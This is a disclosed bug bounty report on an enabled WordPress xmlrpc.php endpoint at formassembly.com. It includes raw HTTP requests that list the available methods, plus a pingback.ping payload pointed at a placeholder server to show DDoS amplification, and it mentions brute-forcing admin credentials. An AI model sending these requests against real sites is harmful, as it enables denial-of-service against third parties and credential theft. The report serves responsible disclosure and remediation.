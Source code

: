 # xmlrpc.php file is enable it will used for (DOS) and bruteforce attack

## Report Details
- **Report ID**: 448524
- **URL**: https://hackerone.com/reports/448524
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-11-21T17:29:19.861Z
- **Disclosed**: 2018-12-27T03:55:49.725Z

## Reporter
- **Username**: meepmerp
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: formassembly

## Vulnerability Information
Wordpress that have xmlrpc.php enabled for pingbacks, trackbacks, etc. can be made as a part of a huge botnet causing a major DDOS. The website https://www.formassembly.com/ has the xmlrpc.php file enabled and could thus be potentially used for such an attack against other victim hosts.

In order to determine whether the xmlrpc.php file is enabled or not, using the Repeater tab in Burp, send the request below.

POST /wp/xmlrpc.php HTTP/1.1
Host: www.formassembly.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 91

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
***==================================================***
HTTP/1.1 200 OK
Date: Wed, 21 Nov 2018 16:43:06 GMT
Content-Type: text/xml; charset=UTF-8
Connection: close
Server: nginx
Vary: Accept-Encoding
X-XSS-Protection: 1; mode=block
Content-Length: 4272

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>demo.addTwoNumbers</string></value>
  <value><string>demo.sayHello</string></value>
  <value><string>pingback.extensions.getPingbacks</string></value>
  <value><string>pingback.ping</string></value>
  <value><string>mt.publishPost</string></value>
  <value><string>mt.getTrackbackPings</string></value>
  <value><string>mt.supportedTextFilters</string></value>
  <value><string>mt.supportedMethods</string></value>
  <value><string>mt.setPostCategories</string></value>
  <value><string>mt.getPostCategories</string></value>
  <value><string>mt.getRecentPostTitles</string></value>
  <value><string>mt.getCategoryList</string></value>
  <value><string>metaWeblog.getUsersBlogs</string></value>
  <value><string>metaWeblog.deletePost</string></value>
  <value><string>metaWeblog.newMediaObject</string></value>
  <value><string>metaWeblog.getCategories</string></value>
  <value><string>metaWeblog.getRecentPosts</string></value>
  <value><string>metaWeblog.getPost</string></value>
  <value><string>metaWeblog.editPost</string></value>
  <value><string>metaWeblog.newPost</string></value>
  <value><string>blogger.deletePost</string></value>
  <value><string>blogger.editPost</string></value>
  <value><string>blogger.newPost</string></value>
  <value><string>blogger.getRecentPosts</string></value>
  <value><string>blogger.getPost</string></value>
  <value><string>blogger.getUserInfo</string></value>
  <value><string>blogger.getUsersBlogs</string></value>
  <value><string>wp.restoreRevision</string></value>
  <value><string>wp.getRevisions</string></value>
  <value><string>wp.getPostTypes</string></value>
  <value><string>wp.getPostType</string></value>
  <value><string>wp.getPostFormats</string></value>
  <value><string>wp.getMediaLibrary</string></value>
  <value><string>wp.getMediaItem</string></value>
  <value><string>wp.getCommentStatusList</string></value>
  <value><string>wp.newComment</string></value>
  <value><string>wp.editComment</string></value>
  <value><string>wp.deleteComment</string></value>
  <value><string>wp.getComments</string></value>
  <value><string>wp.getComment</string></value>
  <value><string>wp.setOptions</string></value>
  <value><string>wp.getOptions</string></value>
  <value><string>wp.getPageTemplates</string></value>
  <value><string>wp.getPageStatusList</string></value>
  <value><string>wp.getPostStatusList</string></value>
  <value><string>wp.getCommentCount</string></value>
  <value><string>wp.deleteFile</string></value>
  <value><string>wp.uploadFile</string></value>
  <value><string>wp.suggestCategories</string></value>
  <value><string>wp.deleteCategory</string></value>
  <value><string>wp.newCategory</string></value>
  <value><string>wp.getTags</string></value>
  <value><string>wp.getCategories</string></value>
  <value><string>wp.getAuthors</string></value>
  <value><string>wp.getPageList</string></value>
  <value><string>wp.editPage</string></value>
  <value><string>wp.deletePage</string></value>
  <value><string>wp.newPage</string></value>
  <value><string>wp.getPages</string></value>
  <value><string>wp.getPage</string></value>
  <value><string>wp.editProfile</string></value>
  <value><string>wp.getProfile</string></value>
  <value><string>wp.getUsers</string></value>
  <value><string>wp.getUser</string></value>
  <value><string>wp.getTaxonomies</string></value>
  <value><string>wp.getTaxonomy</string></value>
  <value><string>wp.getTerms</string></value>
  <value><string>wp.getTerm</string></value>
  <value><string>wp.deleteTerm</string></value>
  <value><string>wp.editTerm</string></value>
  <value><string>wp.newTerm</string></value>
  <value><string>wp.getPosts</string></value>
  <value><string>wp.getPost</string></value>
  <value><string>wp.deletePost</string></value>
  <value><string>wp.editPost</string></value>
  <value><string>wp.newPost</string></value>
  <value><string>wp.getUsersBlogs</string></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>



Notice that a successful response is received showing that the xmlrpc.php file is enabled.
Now, considering the domain https://www.formassembly.com the xmlrpc.php file discussed above could potentially be abused to cause a DDOS attack against a victim host. This is achieved by simply sending a request that looks like below.

POST /wp/xmlrpc.php HTTP/1.1
Host: www.formassembly.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 91

<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://<***YOUR SERVER*** ></string></value>
</param>
<param>
<value><string>https://www.formassembly.com/</string></value>
</param>
</params>
</methodCall>


***remediation:***

If the XMLRPC.php file is not being used, it should be disabled and removed completely to avoid any potential risks. Otherwise, it should at the very least be blocked from external access.

***Thank you***

note: screenshots are given below

## Impact

This method is also used for brute force attacks to stealing the admin credentials and other important credentials

This can be automated from multiple hosts and be used to cause a mass DDOS attack on the victim.

## Attachments
- Screenshot1.png
- Screenshot2.png
